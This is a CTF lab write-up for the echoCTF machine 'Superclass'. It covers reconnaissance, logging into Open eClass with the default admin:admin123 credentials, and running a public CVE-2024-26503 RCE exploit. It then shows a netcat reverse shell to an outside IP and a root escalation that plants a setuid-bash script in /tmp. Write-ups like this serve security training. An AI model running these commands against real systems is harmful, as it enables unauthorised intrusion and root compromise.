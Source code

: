```yaml
---
description: >-
  Superclass echoCTF Machine
title: Superclass (Advanced)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Superclass.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.234    superclass.echocity-f.com
```

### Content

-  Unrestricted File Upload on Open eClass leading to RCE 
-  autostart Program as Root on supervisor.conf

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.234
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.234 ()   Status: Up
Host: 10.0.160.234 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.234
Nmap scan report for 10.0.160.234
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-18 22:53:51 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:cc:6e:b4:e2:3f:be:1c:c5:a8:d7:8e:46:6f:38:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBH0mn1MeXpgoCJ2FPCAmnDseQnQhAABcrPSjOSt2PpI9KMkLWuRepnEbVN7pOFjc971PrlmIhRpvy0M+rzU5Jo=
|   256 31:7c:c2:b9:43:58:3f:c3:3f:c0:e7:b7:48:82:02:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHXZdXBvqbqcdpuHNpTkXf9LfhQvllpuR8NqZfp8aBe7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Open eClass
|_http-favicon: Unknown favicon MD5: D5B69ECF92A558D63AE2EC5FAEDDE360
|_http-server-header: Apache/2.4.61 (Debian)
| http-methods: 
|_  Supported Methods: GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation
There is only HTTP port open which has a web page only:
![](/assets/img/Pasted-image-20250218215751.png)

However, every resource redirects to `http://superclass.echocity-f.com/` which means we need to add it to our `/etc/hosts` file:

![](/assets/img/Pasted-image-20250218215934.png)

```bash
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.234    superclass.echocity-f.com

```
Looking for exploits on this CMS, we identified the following [exploit for Open eClass RCE](https://github.com/RoboGR00t/Exploit-CVE-2024-26503/blob/main/exploit-cve-2024-26503.py)

Now, the important thing here is that the exploit requires authentication, so we tried with the most common pair of credentials, and voila, the following credentials did work `admin:admin123`.

Now to run our exploit all we need is to use the following parameters:
```bash
python3 exploit.py -u admin -p admin123 -e http://superclass.echocity-f.com

  ___  _  _  ____     ____   __  ____   ___      ____   ___   ___   __  ____                                                                                                                                 
 / __)/ )( \(  __)___(___ \ /  \(___ \ / _ \ ___(___ \ / __) / __) /  \( __ \                                                                                                                                
( (__ \ \/ / ) _)(___)/ __/(  0 )/ __/(__  ((___)/ __/(  _ \(___ \(  0 )(__ (                                                                                                                                
 \___) \__/ (____)   (____) \__/(____)  (__/    (____) \___/(____/ \__/(____/

 ============================ Author: RoboGR00t ============================                                                                                                                                                                                       
[eClass]~# whoami
www-data

```
Finally we start a reverse shell and that's it, we are inside:

```bash
[eClass]~# nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation
Now for the privilege escalation I ran linpeas.sh to check interesting entrypoints, first of all there is an interesting process running:
```bash
╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes             
root           1  0.0  0.0   2472   872 pts/0    Ss   04:08   0:00 tini -- /entrypoint.sh supervisord -c /etc/supervisord.conf          
root           7  0.0  0.0   3924  2992 pts/0    S+   04:08   0:00 /bin/bash /entrypoint.sh supervisord -c /etc/supervisord.conf
root          20  0.1  0.3  36956 31156 pts/0    S+   04:08   0:00  _ /usr/bin/python3 /usr/bin/supervisord -c /etc/supervisord.conf
root          21  0.0  0.1  19032 14492 pts/0    S    04:08   0:00      _ /usr/bin/python3 /usr/bin/pidproxy /var/run/apache2/apache2.pid /usr/sbin/apache2ctl -DFOREGROUND

```
Anyway, this is normal on all the echoCTF machines, however is not normal that there is a python3 execution, scrolling down on the linpeas result, there is an interesting finding about this `supervisor.conf` file:
```bash
╔══════════╣ Analyzing Supervisord Files (limit 70)
-rw-r--r-- 1 root root 1178 Dec 27  2022 /etc/supervisor/supervisord.conf                                                               
-rw-rw-r-- 1 root root 1217 Aug 23 08:45 /etc/supervisord.conf

```
It is interesting that the file is readable by any user, so let's dig deeper on this file:
```bash
www-data@superclass:/tmp$ cat /etc/supervisord.conf
[supervisord]
nodaemon=true
pidfile=/run/supervisord.pid
logfile=/var/log/supervisord.log
user=root
logfile_maxbytes=0

[unix_http_server]
file=/run/supervisord.sock       ; (the path to the socket file)
chmod=0777                       ; sockef file mode (default 0700)

[supervisorctl]
serverurl=unix:///run/supervisord.sock

[rpcinterface:supervisor]
supervisor.rpcinterface_factory = supervisor.rpcinterface:make_main_rpcinterface

[program:mariadb]
user = root
command=/usr/bin/pidproxy /run/mysqld/mysqld.pid /usr/bin/mysqld_safe --pid-file=/run/mysqld/mysqld.pid
stdout_logfile = /dev/stdout
stdout_logfile_maxbytes = 0
stderr_logfile = /dev/stderr
stderr_logfile_maxbytes = 0

[program:apache2]
user = root
command=/usr/bin/pidproxy /var/run/apache2/apache2.pid /usr/sbin/apache2ctl -DFOREGROUND
stdout_logfile = /dev/stdout
stdout_logfile_maxbytes = 0
stderr_logfile = /dev/stderr
stderr_logfile_maxbytes = 0

[program:sshd]
user = root
command = /usr/sbin/sshd -o PermitRootLogin=yes -D
stdout_logfile=/dev/fd/1
stdout_logfile_maxbytes=0
redirect_stderr=true

[program:autostart]
user = root
autostart = false
command = /tmp/autostart
stdout_logfile=/dev/fd/1
stdout_logfile_maxbytes=0
redirect_stderr=true
```
To be honest, I used ChatGPT to understand a possible privesc, and the `program:autostart` can be abused if a script called `autostart` can be created in `/tmp` with the following content:

```bash
echo '#!/bin/bash' > /tmp/autostart
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /tmp/autostart
chmod +x /tmp/autostart
```

If an administrator enables it manually (supervisorctl start autostart), it runs as root.
Since /tmp is world-writable, any user can replace the script.

If an admin runs the following command, it executes the supervisord and the `program:autostart` will execute our malicious script: 
```bash
supervisorctl start autostart
```

Then all we need to do is execute `/bin/bash -p` to get a shell as root.

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

```bash
admin:admin123
```

### Notes

-  Sometimes the privesc are on usual files that we often see, the trick here is leaving no stone unturned and check everything even if it seems that is not the way to exploit the machine `supervisord.conf`, `/etc/shadow`, `/root/.ssh/id_rsa` and all the files that usually are unreadable by normal users, should be checked, those are hidden on plainsight and are a low hanging fruit.

### References

- I checked the other writeup for this machine and there is a very useful resource that should be readed: [Using Supervisor](https://medium.com/naukri-engineering/using-supervisor-to-manage-processes-in-linux-98ae4894e9c7)
- [Open eClass RCE Exploit Tool](https://github.com/RoboGR00t/Exploit-CVE-2024-26503)

